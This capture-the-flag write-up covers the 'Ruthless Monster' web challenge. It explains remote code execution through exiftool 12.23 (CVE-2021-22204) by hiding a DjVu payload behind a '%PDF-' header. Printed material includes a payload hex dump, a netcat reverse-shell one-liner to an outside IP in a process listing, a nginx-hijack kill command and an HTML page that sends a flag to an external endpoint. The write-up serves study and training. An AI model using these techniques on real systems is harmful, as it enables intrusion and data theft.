 # Ruthless Monster

**Category**: web, misc \
**Solves**: 13 \
**Points**: 333 \
**Author**: geolado

Please, help me! The bad guys are using this server to send secret evil files. Could you intercept one of these files to me?

> PS: The servers are rebooted every N minutes \
> PS2: The bad guys send the file every 15 seconds.

Files: _a zip file with some source code_<br>
Server: <https://ruthless.monster>

## Overview

There are only two files in the zip: a `Dockerfile` and `html/exif/index.php`.

The `/exif` page lets you upload a PDF, checks that the file starts with `%PDF-`, then runs:

```php
echo shell_exec('timeout 10s exiftool ' . escapeshellarg($target_file));
```

The `Dockerfile` is very short:

```dockerfile
FROM privatebin/nginx-fpm-alpine

COPY html /var/www

USER root

RUN chown root:root -R /var/www
RUN chown root:root -R /srv/
RUN chmod 755 -R /srv/
RUN chmod 755 -R /var/www
RUN chmod 777 -R /srv/data/

WORKDIR /root
RUN apk add perl make
RUN wget https://exiftool.org/Image-ExifTool-12.23.tar.gz && tar -xzf Image-ExifTool-12.23.tar.gz && rm Image-ExifTool-12.23.tar.gz &&\
cd Image-ExifTool-12.23 && perl Makefile.PL && make test && make install && mkdir /uploads && chmod 777 /uploads

WORKDIR /var/www
USER 65534:82
```

I remembered seeing a recent [CVE](https://hackerone.com/reports/1154542) on
exiftool that led to RCE, and this challenge used version 12.23, which is
vulnerable.

So the goal of the challenge is:
1. Get RCE through exiftool
2. Intercept the flag which gets posted to the PrivateBin every 15 seconds

## Solution

Solved with @jerieeee, who did most of the work

### Part 1: RCE through exiftool

- I used this [public PoC](https://github.com/convisoappsec/CVE-2021-22204-exiftool)
- Ran `python3 exploit.py`
- Prepended `%PDF-` to the file
- Ran `exiftool image.pdf`, and it gave me a reverse shell.

---

Of course we also had to spend around 3 hours trying a bunch of stupid stuff and reading
through the exiftool's source code (perl 🤢) before we got RCE to work.

First of all, the vulnerability is only in the DjVu module:

```perl
# convert C escape sequences (allowed in quoted text)
$tok = eval qq{"$tok"};
```

So we have to trick `exiftool` into loading the DjVu module even though the
file must start with `%PDF-`.

At first this seemed impossible, but it turns out exiftool has a special case
for `JPEG` files, which can be abused to make exiftool parse magic bytes even
when they don't appear at the start of the file.

```perl
# last ditch effort to scan past unknown header for JPEG/TIFF
next unless $buff =~ /(\xff\xd8\xff|MM\0\x2a|II\x2a\0)/g;
$type = ($1 eq "\xff\xd8\xff") ? 'JPEG' : 'TIFF';
my $skip = pos($buff) - length($1);
$dirInfo{Base} = $pos + $skip;
$raf->Seek($pos + $skip, 0) or $seekErr = 1, last;
$self->Warn("Processing $type-like data after unknown $skip-byte header");
$unkHeader = 1 unless $$self{DOC_NUM};
```

So in the end our payload looked like this:

```xxd
00000000: 2550 4446 2dff d8ff e000 104a 4649 4600  %PDF-......JFIF.
00000010: 0101 0100 4800 4800 00ff e101 c045 7869  ....H.H......Exi
00000020: 6600 004d 4d00 2a00 0000 0800 0501 1a00  f..MM.*.........
00000030: 0500 0000 0100 0000 4a01 1b00 0500 0000  ........J.......
00000040: 0100 0000 5201 2800 0300 0000 0100 0200  ....R.(.........
00000050: 0002 1300 0300 0000 0100 0100 00c5 1b00  ................
00000060: 0200 0001 5e00 0000 5a00 0000 0000 0000  ....^...Z.......
00000070: 4800 0000 0100 0000 4800 0000 0141 5426  H.......H....AT&
00000080: 5446 4f52 4d00 0001 5144 4a56 5549 4e46  TFORM...QDJVUINF
00000090: 4f00 0000 0a00 0100 0118 002c 0116 0142  O..........,...B
000000a0: 476a 7000 0000 0041 4e54 7a00 0001 2bff  Gjp....ANTz...+.
...
```

You can see that it starts with `%PDF-` but also has a `JFIF` header, and then
has `AT&TFORM` a little further down, which are the AIFF magic bytes. The AIFF
module will then load the DjVu module.

### Part 2: Intercepting the flag

After popping a reverse shell on the remote server, it was 4 AM on Sunday so
I went to bed and jerieeee did the rest of the challenge, so I'll try to
explain how she solved it.

First of all, we're logged in as `nobody`:

```
/var/www/exif $ id
uid=65534(nobody) gid=82(www-data)
```

We can also see that many of the processes are running as `nobody`,
specifically `nginx` and `php`.

```
PID   USER     TIME  COMMAND
    1 nobody    0:00 s6-svscan -t0 /var/run/s6/services
   36 nobody    0:00 s6-supervise nginx
   37 nobody    0:00 s6-supervise php-fpm8
   38 nobody    0:00 s6-supervise s6-fdholderd
   40 nobody    0:00 {php-fpm8} php-fpm: master process (/etc/php8/php-fpm.conf)
   51 nobody    0:00 {php-fpm8} php-fpm: pool www
   52 nobody    0:00 {php-fpm8} php-fpm: pool www
  170 nobody    0:00 [exiftool]
  173 nobody    0:00 sh -c rm /tmp/.xff;mkfifo /tmp/.ffx;cat /tmp/.ffx|/bin/sh -i 2>&1|nc 207.154.208.77 1234 >/tmp/.ffx   <-- Looks like another team's reverse shell lol
  176 nobody    0:00 cat /tmp/.ffx
  177 nobody    0:00 /bin/sh -i
  178 nobody    0:00 nc 207.154.208.77 1234
  184 nobody    0:00 /bin/sh -i
  187 nobody    0:00 {php-fpm8} php-fpm: pool www
  200 nobody    0:00 nginx: master process /usr/sbin/nginx
  201 nobody    0:00 nginx: worker process
  202 nobody    0:00 nginx: worker process
  220 nobody    0:00 ps aux
```

Since PrivateBin is supposedly a zero-knowledge pastebin, it would be difficult
to directly hijack the service and decrypt the pastes.

However, we can do this:
1. Kill all nginx processes
2. Spawn our own nginx process that hosts a malicious webpage that exfiltrates the flag to us
3. Wait for the admin bot to send the flag on our page

Here's the nginx conf that was used (luckily the port is 8080 so we have
permission to bind it):

```nginx
worker_processes 1;
worker_rlimit_nofile 8192;
error_log /dev/null warn;
events {
  worker_connections 8000;
}
pid /run/nginx.pid;
daemon off;
timer_resolution 500ms;
http {
    default_type  application/octet-stream;
    charset_types text/css text/plain text/vnd.wap.wml application/javascript application/json application/rss+xml application/xml;
    server_tokens off;
    charset utf-8;
    keepalive_timeout 20s;
    sendfile        on;
    access_log /dev/null;
    tcp_nopush      on;
    server {
            listen 8080 default_server;
            listen [::]:8080 default_server;
            root /tmp;
            index index.html;
    }
}
```

Here's `index.html`:

```html
<html>
<body>
<textarea id="message" name="message" cols="80" rows="25" class="form-control" spellcheck="false"></textarea>
<button id="sendbutton" type="button" class="btn btn-primary">
<span class="glyphicon glyphicon-upload" aria-hidden="true"></span> Send</button>
<script type="text/javascript">
    document.querySelector("#sendbutton").onclick = ()=>fetch("https://da08338acc23cd10f7229bd5e84ba970.m.pipedream.net/"+document.querySelector("#message").value)
</script>
</body>
</html>
```

We can put these files in `/tmp` and run:
```
kill -9 <pid of all nginx processes> && nginx -c /tmp/conf
```

Even though there are shields respawning nginx processes, this one will be
faster than whatever monitor resolution they have. So eventually this server
will replace the legit server (the respawned processes will be get a
port-already-in-use error and die)

Then we just wait for the admin bot to send us the flag:

```
CTF-BR{Pl3453_d0nt_t3ll_m3_y0u_burn3d_4_0day_0n_th1s}
```